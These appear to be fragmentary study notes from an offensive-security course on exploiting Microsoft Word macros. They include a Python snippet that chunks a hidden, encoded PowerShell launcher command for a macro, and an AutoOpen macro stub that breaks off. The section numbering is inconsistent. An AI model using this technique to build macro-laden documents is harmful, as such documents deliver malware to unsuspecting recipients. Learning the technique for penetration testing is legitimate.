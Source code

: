 ## Section 2 Exploiting Microsoft Office
### Subsection 11.2.3 Leveraging Microsoft Word Macros
- Steps 
	- Save the document as a .doc file
		- .docx files don't allow for direct macro execution on the host system
	- Write the macro as follows in the example
- Python code to get the base64 into the right size
```
str = "powershell.exe -nop -w hidden -e STRING"

n = 50

for i in range(0, len(str),n):
     print("Str = Str + " + '"' + str[i:i+n] + '"')
```
- Example
```
Sub AutoOpen()
	my
```
## Section 2

## Exercises To-Do

- [ ] 2.1.1 (page 20)